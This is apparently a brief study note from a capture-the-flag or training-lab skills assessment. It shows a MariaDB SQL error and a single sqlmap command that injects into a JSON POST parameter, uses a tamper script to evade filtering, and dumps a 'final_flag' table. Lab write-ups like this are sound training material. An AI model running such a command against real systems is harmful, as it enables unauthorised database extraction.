

# Skills Assessment




SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ' 726, 1, 10, 0)' at line 1

```bash
sqlmap -u "http://94.237.56.229:53199/action.php" --data='{"id":1}'  -p id --batch --threads 10 --dbms=mysql --random-agent --tamper=between --dump -T final_flag -D production
```

## Material relacionado

- [OS Exploitation](../../../Tools/SQLmap/os-explotation.md)
- [SQLmap](../../../Tools/SQLmap/sqlmap.md)
